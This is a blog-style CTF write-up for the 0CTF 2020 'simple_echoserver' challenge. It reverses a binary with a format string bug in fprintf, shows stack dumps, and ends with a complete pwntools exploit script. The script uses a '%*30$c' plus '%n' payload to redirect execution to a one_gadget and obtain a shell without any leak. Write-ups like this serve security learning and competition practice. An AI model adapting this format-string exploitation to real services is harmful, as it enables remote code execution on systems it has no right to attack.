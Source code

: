 ```yaml
---
layout: "post"
title: "Writeup for Simple Echo Server 0ctf 2020"
date: 2020-07-02
tags: [Format Strings, CTF]
---
```


We had great time playing this year's edition of 0CTF 2020. I was mostly working on the challenge **simple\_echoserver** which was a fairly simple stack based challenge, but required lot of brute forcing. Sadly , we couldn't hit the bruteforce on server. Nevertheless , here's the intended solution for the challenge.

## TL;DR OF THE CHALLENGE BINARY

We've been provided with standard *x86 64-bit Dynamically Linked* binary along with *glibc 2.27* to start with.

Here's what **checksec** has to say -

```py
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```

Let's reverse this now.

## REVERSING

The binary is a fairly simple one asking us for **name** and **phone number** which it stores on stack and then performs **fprintf** of name through stderr. An important thing to note is that *stderr is being directed to /dev/null* on server and hence the binary won't print out name , thereby preventing leaks.

The bug lies in the fprintf where we encounter the infamous **Format String Vulnerability**.

The function asking for Details ->

```c
 puts("For audit, please provide your name and phone number: ");
  printf("Your name: ");
  read_name((_BYTE *)a1, 256);
  printf("Your phone: ", 256LL);
  result = read_num();
  *(_QWORD *)(a1 + 256) = result;
  return result;

```

This is the function which contains our vulnerable fprintf

```c
 snprintf((char *)0x555555558060LL, 0x100uLL, "[USER] name: %s; phone: %ld\n", a1, *(_QWORD *)(a1 + 256));
  return fprintf(MEMORY[0x555555558040], (const char *)0x555555558060LL);
```

After this , the program loops and echo's whatever we give as input without any vulnerabilities.

```c
    puts("Now enjoy yourself");
    while(1)
    {
        read_name(&s1,256);
        if(!strcmp(&s1,"~."))
            break;
        printf("%s",&s1);
    }
```

## EXPLOIT IDEA AND ANALYSIS

Well , initially we planned to do File Structure overwrite by corrupting stderr's *file_no* field with **1** and calling main again would print leaks. But that method looked very cumbersome as it required lots of bruteforcing.

Hence the intended solution is to pop pyell leaklessly.

Let us notice stack at the instance of calling vulnerable printf.

```py

0000| 0x7fffffffebf8 --> 0x55555555541a (nop)
0008| 0x7fffffffec00 --> 0x0 
0016| 0x7fffffffec08 --> 0x555555558160 --> 0x6161616161 ('aaaaa') ->Input
0024| 0x7fffffffec10 --> 0x7fffffffed30 --> 0x7fffffffed50 --> 0x5555555554e0 (endbr64) ->Main's RBP
0032| 0x7fffffffec18 --> 0x555555555443 (lea    rdi,[rip+0xc5b]        # 0x5555555560a5)
0040| 0x7fffffffec20 --> 0x0 
0048| 0x7fffffffec28 --> 0x0 
0056| 0x7fffffffec30 --> 0x7fffffffed30 --> 0x7fffffffed50 --> 0x5555555554e0 (endbr64)
0064| 0x7fffffffec38 --> 0x7ffff7dcfa00 --> 0xfbad208b 
0072| 0x7fffffffec40 --> 0xd68 ('h\r')
0080| 0x7fffffffec48 --> 0x7ffff7a71148 (<_IO_file_underflow+296>:	test   rax,rax)
0088| 0x7fffffffec50 --> 0xf705fa00 
0096| 0x7fffffffec58 --> 0xffffffffffffffff 
0104| 0x7fffffffec60 --> 0x5555555550f0 (endbr64)
0112| 0x7fffffffec68 --> 0xa ('\n')
0120| 0x7fffffffec70 --> 0x7fffffffed10 --> 0x7fffffffed30 --> 0x7fffffffed50 --> 0x5555555554e0 (endbr64)
0128| 0x7fffffffec78 --> 0x5555555550f0 (endbr64)
0136| 0x7fffffffec80 --> 0x7fffffffee30 --> 0x1 
0144| 0x7fffffffec88 --> 0x0 
0152| 0x7fffffffec90 --> 0x0 
0160| 0x7fffffffec98 --> 0x555555555348 (mov    rcx,QWORD PTR [rbp-0x18])
0168| 0x7fffffffeca0 --> 0x7ffff7dcfa00 --> 0xfbad208b 
0176| 0x7fffffffeca8 --> 0x7fffffffecb3 --> 0xffee300000000000 
0184| 0x7fffffffecb0 --> 0x333231 ('123') -> Phone Number
0192| 0x7fffffffecb8 --> 0x7fffffffee30 --> 0x1 

0208| 0x7fffffffecc8 --> 0x7ffff7a723f2 (<_IO_default_uflow+50>:	cmp    eax,0xffffffff)
0216| 0x7fffffffecd0 --> 0x36 ('6')
0224| 0x7fffffffecd8 --> 0x555555558165 --> 0x0 
0232| 0x7fffffffece0 --> 0x7fffffffed10 --> 0x7fffffffed30 --> 0x7fffffffed50 --> 0x5555555554e0 (endbr64)
0240| 0x7fffffffece8 --> 0x55555555528d (mov    r12d,eax)
0248| 0x7fffffffecf0 --> 0x10055556029 



```

If we close analyse address **0x7fffffffeca8** which also contains a stack pointer **0x7fffffffecb3**, we see that we can control it with the Phone Number that we give as input , so if we give the phone number of *length* **24**  , then we can make that pointer point to a libc address.

```py
0176| 0x7fffffffeca8 --> 0x7fffffffecc8 --> 0x7ffff7a72300 (<_IO_doallocbuf>:	cmp    QWORD PTR [rdi+0x38],0x0)
0184| 0x7fffffffecb0 ('0' <repeats 24 times>) -> Phone Number of length 24
0192| 0x7fffffffecb8 ('0' <repeats 16 times>)
0200| 0x7fffffffecc0 ("00000000")
0208| 0x7fffffffecc8 --> 0x7ffff7a72300 (<_IO_doallocbuf>:	cmp    QWORD PTR [rdi+0x38],0x0)

```

Now that we have a libc address , we now corrupt it to point to one_gadget and pivot stack by corrupting rbp
to point to one_gadget to grant us shell.

After a few attempts , **0xe5863** magic address satisfies and we get shell.

But how do we write one_gadget number of bytes to that address?

We can use `%*` format string which is actually used for picking arguments from stack.

If we can pick arguments from stack , we can add them to constant numbers and get to one_gadget.
{: .notice}

So now the plan is , 

1. Corrupt rbp to point to our supposed one_gadget.
2. Find the difference between the libc address on stack and one_gadget. This is the number of bytes we need to add to our libc address which we will do with `%*`.
3. We calculate the offset and number of bytes to be added and finally use %n to store the result of addition back in the pointer we have to corrupt.


Here's the exploit script.

```py
from pwn import *
import sys

HOST = 'pwnable.org'
PORT = 12020
LIBC = ELF("./libc.so.6",checksec = False)
if(len(sys.argv)>1):
    io=remote(HOST,PORT)
    context.noptrace=True
else:
    io=process('./simple_echoserver',env = {"LD_PRELOAD" : "./libc.so.6"},stderr = open('/dev/null','w+'))

reu = lambda a : io.recvuntil(a)
sla = lambda a,b : io.sendlineafter(a,b)
sl = lambda a : io.sendline(a)
rel = lambda : io.recvline()
sa = lambda a,b : io.sendafter(a,b)
re = lambda a : io.recv(a)
s = lambda a : io.send(a)
#b*0x5555555554d0

#'%*76$d' + '%73$n')

if __name__=="__main__":
    gdb.attach(io,"""
            b fprintf
            c
            """)
    #rbp is stored at 7th offset , the libc address is stored at offset 30 and the pointer to libc address is stored at 26th offset
    sla("Your name: ", '%3c' + '%7$hhn' + '%357715c' + '%*30$c' + '%26$n')
    sla('phone: ','0'*24) #To get pointer to libc address
    sla('yourself!\n','a')
    sl('~.')
    io.interactive()
```

## CONCLUSION

The challenge has unintended solutions which deal with exploiting **vfprintf** which Ill not be looking into as for now.

Simple challenge with complex tricks , kudos to 0CTF for such a challenge.



